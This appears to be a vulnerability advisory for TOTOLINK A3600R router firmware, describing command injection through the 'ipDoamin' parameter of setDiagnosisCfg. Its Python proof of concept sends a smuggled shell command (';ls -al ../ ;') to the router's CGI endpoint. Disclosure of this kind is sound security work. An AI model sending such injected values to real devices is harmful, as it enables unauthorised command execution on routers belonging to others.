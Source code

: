 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setDiagnosisCfg` function. The `v6` variable receives the `ipDoamin` parameter from a POST request. However, since the user can control the input of `ipDoamin`, the `CsteSystem` can cause a command injection vulnerability.

![image-20240721001159449](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001159449.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"ipDoamin":";ls -al ../ ;","topicurl":"setDiagnosisCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)

